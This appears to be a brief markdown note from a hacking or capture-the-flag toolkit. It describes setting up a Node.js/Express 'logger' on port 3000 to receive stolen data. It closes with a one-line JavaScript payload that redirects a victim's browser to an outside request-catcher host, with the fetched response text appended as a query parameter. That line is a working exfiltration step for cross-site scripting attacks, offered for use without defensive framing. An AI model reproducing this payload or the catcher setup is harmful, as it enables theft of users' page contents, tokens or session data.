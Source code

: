 # node.js/express logger(better than php)
- requires:
  - apt install npm -y
  - npm init 
  - npm install express

vi app.js

# execute without html
node app.js
-> running on 3000 port


# or just request catcher
location='//logging2.requestcatcher.com/test?key='+this.responseText;
